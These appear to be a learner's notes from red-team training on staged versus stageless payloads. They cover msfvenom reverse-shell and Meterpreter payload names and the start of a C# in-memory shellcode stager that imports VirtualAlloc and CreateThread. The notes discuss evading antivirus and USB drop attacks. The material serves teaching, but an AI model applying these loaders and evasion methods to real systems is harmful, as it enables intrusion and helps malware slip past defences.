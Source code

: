 
<u>Conclusion</u>:

- We can't say that either type is better than the other unless we add some context to it.
- In general, **stageless payloads** are better suited for networks with lots of `perimeter security`, as it doesn't rely on having to download the final shellcode from the Internet.

		- Example : Performing a USB drop Attack to target computers in a closed network environment where you know you won't get a connection back to your machine, stageless is the way to go. (Soooooo stuxnet???)

- **Staged payloads** on the other hand, are great when you want your footprint on the local machine to be reduced to a minimum.
- Since they execute the final payload in memory, some AV solutions might find it harder to detect them.
- They are also great in preventing from `exposing` your shellcodes (which usually take considerable time to prepare) , as the shellcode isn't dropped into the victim's disk at any point (as an artifact).

		- By "exposing", I think it means that an AV solution could get a hold of your shellcode which burns it.
		- Note that once an AV solution learned about your shellcode, AV solution(s) can easily defeat it as they know its signature and won't get passed the next time.
		- So a way to prevent from burning your shellcodes is by NOT letting it touch the disk.

### Stagers in Metasploit

- When creating payloads with `msfvenom` or using them directly in Metasploit, you can choose to use either `staged` or `stageless` payloads.

<u>Example</u>: Generating a `reverse shell` TCP , you will find **two payloads** exist for that purpose with slightly different names (notice the `_` versus `/` after `shell`):

![](/assets/img/Pasted image 20230113111103.png)

- You will generally find that the same name patterns are applied to other types of shells.
- To use a `stageless` Meterpreter, for example, we would use the `windows/x64/meterpreter_reverse_tcp`, rather than `windows/x64/meterpreter/reverse_tcp`, which works as its staged counterpart.


### Creating your own Stager

- To create a staged payload, we will use a slightly modified version of the stager code.
- The full code of our stager is available at `C:\Tools\CS Files\StagedPayload.cs`:

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```